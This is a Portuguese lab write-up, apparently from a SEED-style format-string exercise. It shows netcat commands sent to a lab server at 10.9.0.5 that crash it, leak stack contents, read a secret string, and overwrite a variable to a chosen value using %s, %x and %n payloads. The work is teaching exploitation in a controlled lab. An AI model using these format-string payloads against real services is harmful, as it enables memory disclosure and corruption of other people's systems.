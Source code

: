 ## Task 1

Crashar o servidor:

Bastou inserir a string %s.

```
$ echo '%s' | nc 10.9.0.5 9090
```

O servidor pode estar à espera de um formato ou entrada específica que não é fornecida pela string "%s" e, portanto, optemos um crash (não apareceu a mensagem "(^_ ^)(^_ ^)  Returned properly (^_ ^)(^_^)").

## Task 2.A

Para imprimir os dados da stack precisamos apenas enviar para o servidor o vários "%.8x". Dessa forma, podemos descobrir o endereço de memória dos valores da stack. Portanto, para identificar exatamente onde começa o buffer, inserimos 4 caracteres que facilmente reconhecemos. Neste caso, AAAA cujo valore em hexadecimal é 41414141. Desta maneira, podemos determinar exatamente o tamanho do buffer.

```
echo AAAA%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x | nc 10.9.0.5 9090
```

![Alt text](Docs/image-5.png)

Como podemos ver, existem 504 caracteres entre AAAA e 41414141. Podemos calcular o número de endereços na stack: 504/8 = 63.

## Task 2.B

Para imprimir o conteúdo da string so endereço da secret message (0x080b4008), basta enviar, como input, o endereço da mensagem seguido de 63 "%.8x" e, no final, um "%s", pois, como vimos da task anterior, o endereço 64 é o que imprime o valor do endereço. Obtemos:

echo $( printf "\x08\x40\x0b\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x %s | nc 10.9.0.5 9090

![Alt text](Docs/image-7.png)

## Task 3.A

Para alterar o valor da variável 0x11223344 com o endereço 0x080e5068 podemos seguir um lógica parecida com a da task anterior. Trocamos o "%s" por "%n", uma vez que este comando escreve na memória o número de caracteres escritos até então. Alteramos também o endereço para o que corresponde à variável que queremos modificar.

```
echo $( printf "\x68\x50\x0e\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x %n | nc 10.9.0.5 9090
```

![Alt text](Docs/image-6.png)

## Task 3.B

Finalmente, queremos mudar o valor da mesma variável par aum valor expecífico (0x5000). Para isso podemos escrever 20480 caracteres seguido de "%n" (0x5000 é 20480 em decimal). Deste modo, precisamos de garantir que o input até "%n" tenha exatamente 20480. Para isso podemos apenas adicionar o número de caracteres que nos falta (20480 - 4 - 62*8 = 19980). Assim obtemos:

```
echo $( printf "\x68\x50\x0e\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.19980x%n | nc 10.9.0.5 9090
```

![Alt text](Docs/image-8.png)

